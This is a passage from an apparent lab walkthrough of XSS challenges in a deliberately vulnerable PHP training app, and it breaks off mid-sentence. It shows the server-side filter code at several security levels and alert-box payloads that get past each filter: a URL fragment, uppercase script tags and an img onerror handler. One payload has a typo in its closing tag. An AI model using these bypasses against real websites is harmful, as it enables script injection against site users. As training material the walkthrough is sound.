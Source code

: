 ```php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?>	
```
We should avoid sending the payload to the server, for blacklisting, so, we use the `#`
**Attack :** English#<script>alert("hacked")</script>

# XSS REFLECTED
## Low 
**Attack :**  `<script>alert("hacked")</script>`
## Medium
Some level of filtering has been done this time,
```php
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
```
They have only replaced lowercase `<script>`, which means, `<SCRIPT>` will work!	
**Attack :**  `<SCRIPT>alert("hacked")</SCRIPT>`
## High
Only script tags are being targetted by this programmer, use an img tag instead.
**Attack :** `<img src=x onerror=alert("hacked")>`

# XSS STORAGE
## Low 
**Attack :**  `<script>alert("hacked")</sript>` (in Message)
## Medium
Some level of filtering has been done in both input blocks, but the name tag has a weaker level of filtering.

```php
// Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
```
The strip_tags function is strong and removes all html, php tags. We can target the weaker `name` input field, but, the problem is the `name` field takes only 10 characters. To increase this number, 
